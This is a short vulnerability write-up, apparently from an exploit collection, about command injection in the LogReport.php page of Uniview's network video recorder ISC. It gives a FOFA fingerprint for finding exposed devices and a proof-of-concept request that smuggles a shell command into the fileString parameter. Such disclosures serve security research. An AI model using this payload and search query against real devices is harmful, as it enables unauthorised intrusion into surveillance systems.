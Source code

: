 # Zhejiang UTV Technology Network Video Recorder ISC LogReport.php Remote Command Execution Vulnerability

## Vulnerability Description

Zhejiang UTV Technology Network Video Recorder ISC /Interface/LogReport/LogReport.php page, fileString parameter filtering is not strictly filtered, resulting in the attacker being able to execute arbitrary commands

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhejiang UTV Technology Network Video Recorder ISC</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="uniview-ISC"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645887597864-478bdd00-527b-4a78-a161-f7bbf022a0d5.png)

Verify POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645887664378-917e4c3f-62cc-4dd2-9faa-eb8aeadd734d.png)



